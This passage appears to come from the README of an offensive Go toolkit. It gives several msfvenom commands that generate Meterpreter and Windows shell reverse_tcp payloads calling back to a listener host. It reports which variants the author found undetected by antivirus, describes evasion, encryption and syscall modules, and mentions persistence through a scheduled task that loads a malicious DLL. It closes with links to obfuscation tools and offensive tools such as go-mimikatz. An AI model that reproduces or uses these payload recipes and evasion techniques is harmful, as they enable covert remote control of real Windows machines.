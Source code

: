 #### Portable Executable (PE)

- Meterpreter Staged Payload downladed from external web server with Evasion and Encryption Module implemented. **(UPDATE: Not detected by AV as of 19/03/2022)**
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.21 -o /opt/Offensive-Golang/payload.txt -b "\x00" EXITFUNC=thread LPORT=443 -f c --smallest
```
![](https://i.imgur.com/wgGHWr4.png)

>NOTE: Some msf commands trigger the AV

### Syscall

#### Dynamic link library (DLL)
- Meterpreter Staged Payload with Evasion Module implemented. **(UPDATE: Not detected by AV as of 19/03/2022)**
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.21 -o /opt/Offensive-Golang/payload.txt -b "\x00" EXITFUNC=thread LPORT=443 -f c --smallest
```
![](https://i.imgur.com/5iVuw0J.png)

#### Portable Executable (PE)

- Meterpreter Staged Payload downladed from external web server with Evasion and Encryption Module implemented. **(UPDATE: Detected by AV as of 19/03/2022)**
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.21 -o /opt/Offensive-Golang/payload.txt -b "\x00" EXITFUNC=thread LPORT=443 -f c --smallest
```
- Reverse Shell Staged Payload downladed from external web server with Evasion and Encryption Module implemented. **(UPDATE: Not detected by AV as of 19/03/2022)**
```
msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.0.21 -o /opt/Offensive-Golang/payload2.txt -b "\x00" EXITFUNC=thread LPORT=443 -f c --smallest
```

### Persistence

- Task scheduled with malicious dll using syscall

![](https://i.imgur.com/CxWTgL5.png)

## References :books:

- Installation
    - https://github.com/go-vgo/robotgo#installation
    - https://github.com/lowkey42/MagnumOpus/wiki/TDM-GCC-Mingw64-Installation#zlib-x64
    - https://stackoverflow.com/questions/58793857/robotgo-for-windows-10-fatal-error-zlib-h-no-such-file-or-directory
- Obfuscation
    - https://github.com/unixpickle/gobfuscate
    - https://github.com/burrowers/garble
    - https://github.com/goretk/redress
    - https://github.com/josephspurrier/goversioninfo
    - https://github.com/Tylous/Limelighter
- Golang Offensive Tools
    - https://github.com/Binject/go-donut
    - https://github.com/optiv/ScareCrow
    - https://github.com/vyrus001/go-mimikatz
    - https://www.symbolcrash.com/2021/03/02/go-assembly-on-the-arm64/
    - https://github.com/awgh/cppgo
    - https://github.com/Binject/awesome-go-security
    - https://www.symbolcrash.com/2019/02/23/introducing-symbol-crash/